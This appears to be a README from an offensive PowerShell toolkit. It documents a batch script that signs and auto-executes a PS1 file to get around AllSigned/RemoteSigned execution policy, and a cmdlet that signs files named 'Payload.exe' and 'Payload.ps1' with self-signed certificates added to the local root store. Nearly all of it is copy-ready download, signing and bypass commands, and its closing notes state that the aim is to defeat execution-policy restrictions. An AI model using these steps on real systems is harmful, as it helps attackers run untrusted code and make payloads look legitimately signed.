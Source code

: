 ## Module Name
   <b><i>PSscriptSigning.bat</i></b>

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|PSscriptSigning|Signs one PS1 script ( **certlm.msc - certificate** ) + Auto-Execute it ?<br />This allow us to execute our PS1 cmdlet even if set-executionpolicy<br />its set to only run signed cmdlets [( AllSigned, RemoteSigned )](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7.2)|Administrator|[PSscriptSigning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/PSscriptSigning.bat)<br />[DeletePSscriptSignning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/DeletePSscriptSignning.bat)<br />Dependencies: LanManServer|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/PSscriptSigning.bat" -OutFile "PSscriptSigning.bat"
```

<br />

**prerequesites checks:**
```powershell
Get-ExecutionPolicy -Scope CurrentUser
[bool](Get-Service -Name LanManServer)
```

```powershell
# Execute the next cmdline to: auto-execute the PS1 after PSscriptSigning.bat have sign it ?
[optional] Add-Content -Path "PSscriptSigning.bat" -Value "`npowershell -W 1 -File %PSsignPath%" -Force

# Execute the batch script that signs our PS1 cmdlet
.\PSscriptSigning.bat
```


**check if (Subject: My_Code_Signing_Certificate) certificate exists:**
```powershell
[manual] Certlm.msc
[auto] $List = @("Root","My");ForEach($Item in $List){Get-ChildItem Cert:\LocalMachine\$Item|Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}}
```

<br /><br />

**Delete certificate from store**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/DeletePSscriptSignning.bat" -OutFile "DeletePSscriptSignning.bat"
```

```powershell
.\DeletePSscriptSignning.bat
```

**check if (Subject: My_Code_Signing_Certificate) certificate was deleted:**
```powershell
[manual] Certlm.msc
[auto] Get-ChildItem Cert:\LocalMachine\Root | Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}
```

<br />

### Final Notes
```
This BATCH script can sign\execute our cmdlet even if Set-ExecutionPolicy its set to 'AllSigned, RemoteSigned'.
Because executing BATCH scripts its NOT affected by 'Set-ExecutionPolicy' target settings, this allow us to
Sign the cmdlet and then auto-execute it bypassing 'Set-ExecutionPolicy AllSigned,RemoteSigned' restrictions.

The PSscriptSigning.bat script can only be used to sign ONE cmdlet at a time, because it uses
the same Subject Name everytime it signs one cmdlet ( Subject: My_Code_Signing_Certificate )

```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md

<br /><br />

## Module Name
   <b><i>Invoke-LazySign.ps1</i></b>

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-LazySign](https://github.com/r00t-3xp10it/redpill/blob/main/lib/CertSign_PS1/Invoke-LazySign.ps1)|Sign a Windows binary\Cmdlet with a self-signed certificate|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/SuperWork.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.ps1" -OutFile "Invoke-LazySign.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure all the required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "PKI").ExportedCmdlets|findstr /C:"New-SelfSignedCertificate")
[bool]((Get-Module -ListAvailable -Name "Microsoft.PowerShell.Security").ExportedCommands|findstr /C:"Set-AuthenticodeSignature")
```


```powershell
Get-Help .\Invoke-LazySign.ps1 -full

#Query for ALL certificates in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "[a-z 0-9]"

#Query for ALL 'LazySign' certs in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "LazySign"

#Sign binary (Payload.exe) with crafted certificate (Subject: LazySign-4zrH Expires: 6 months)
.\Invoke-LazySign.ps1 -Action 'Sign' -Subject "LazySign" -Target "$pwd\Payload.exe" -NotAfter "6"

#Sign binary (Payload.ps1) with crafted certificate (Subject: LazySign-4zrH Expires: 3 months)
.\Invoke-LazySign.ps1 -Action 'sign' -Subject "LazySign" -Target "Payload.ps1" -NotAfter "3"

#Delete the 'LazySign-4zrH' certificate from windows store
.\Invoke-LazySign.ps1 -Action 'del' -Subject "LazySign-4zrH"
```

<br />

## Final Notes
```
Do 'NOT' edit the signed binary\cmdlet after its being signed, or else the certificate code block
inside signed binary\cmdlet will brake, rending the signed binary\cmdlet as 'NOT-SIGNED' again.

Do 'NOT' use Regex when invoking -Action 'del' to delete certificates from the Windows Store.
Because Invoke-LazySign.ps1 cmdlet uses recursive search by default (deleting multiple certs)

This cmdlet will 'NOT' sign our script.ps1 if 'Set-ExecutionPolicy AllSigned,RemoteSigned' are set.
Because ExecutionPolicy will prevent this cmdlet from running. If you wish to bypass the restrictions
then execute the 'PSscriptSigning.bat' batch module contained in this same repository (the first module)

The PSscriptSigning.bat script can only be used to sign 'ONE' cmdlet at a time, because it uses
the same Subject Name everytime it signs one cmdlet ( Subject: My_Code_Signing_Certificate )
```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md
